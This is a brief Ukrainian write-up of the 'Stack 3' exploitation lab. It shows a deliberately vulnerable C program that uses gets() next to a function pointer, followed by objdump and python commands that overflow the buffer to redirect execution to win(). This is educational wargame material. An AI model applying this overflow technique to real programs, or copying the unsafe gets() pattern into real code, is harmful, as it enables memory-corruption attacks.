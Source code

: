 # Stack 3

Замінюємо функцію, використовуючи вразливості

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Команди
```
objdump -x stack3 | grep win

python -c "print('F' * 64 + '\x24\x84\x04\x08')" | ./stack3
```
